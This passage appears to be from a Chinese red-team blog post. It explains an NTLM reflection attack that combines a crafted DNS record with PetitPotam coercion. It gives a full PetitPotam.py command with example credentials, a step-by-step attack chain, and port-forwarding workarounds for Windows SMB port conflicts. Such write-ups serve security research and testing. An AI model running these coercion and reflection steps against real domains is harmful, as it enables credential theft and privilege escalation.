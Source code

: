 3.   
强制目标服务器向指定的主机发起 NTLM 认证  
。  
  

```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135（目标机IP）
```

  
  
具体的攻击逻辑是如何实现的呢?  
  

```
1. 攻击者在域控上添加一条精心构造的 DNS 记录，将主机名 badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 指向攻击者IP
2. 攻击者在内网跳板机（不必在域内，网络连通即可）上启动 SMB/LDAP 等协议的监听，接收到目标主机发起的 NTLM 认证请求后将其反射回目标主机
3. 强制目标主机向 badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 发起 NTLM 认证
3. 目标主机向域控查询 badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 的 A 记录，并解析到攻击者IP
4. 目标主机向攻击者 IP 发起 NTLM 认证请求
5. 攻击者将收到的认证请求反射回目标主机
6. 目标主机触发漏洞进行本地身份验证
7. 在本地身份验证握手中，攻击者监听到有 Token 的上下文句柄，并提取 Hash
```

  
0x02 实战中不是问题的问题  
  
  
参考资料  
  

```
1. Windows 445 端口占用
2. 相关利用脚本均依赖impacket
```

  
  
依赖  
impacket  
是很常见的问题，一般走隧道解决即可，主要问题在于入口机器如果是 Windows 的话，则会存在因为系统默认的 SMB 服务导致的端口占用问题。  
  
如果在 Windows 下直接开启监听，那么会遇到监听失败的情况，而如果通过  
--smb-port  
监听指定端口，又会导致默认是跟 445 端口进行验证而无法正常获取到上下文句柄的问题。那么如何解决呢？  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2El0HJiatcJSs4WicBZ1RGVWJVr730xYzYCoI0LPYjklEsPQ6oSticRtAJnA/640?wx_fmt=png&from=appmsg "")  
  
原本想通过对 PetitPotam.py 进行改造以实现非默认端口的认证，但是受限于   
badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  
 的影响，最终没找到可以直接指定端口的方法，具体原因不与漏洞原理有关，可以参考上一篇文章，如果有师傅想继续研究可以跟我交流。  
  
除此之外还能想到就是端口转发，关闭SMB服务等方法。关闭SMB服务对系  
统影响较大  
，也不符合红队行动规范，因此最终通过  
康哥（@浮尘云烟）  
推荐的   
StreamDivert  
 实现转发，  
具体的利用  
将在后续讲到。  
  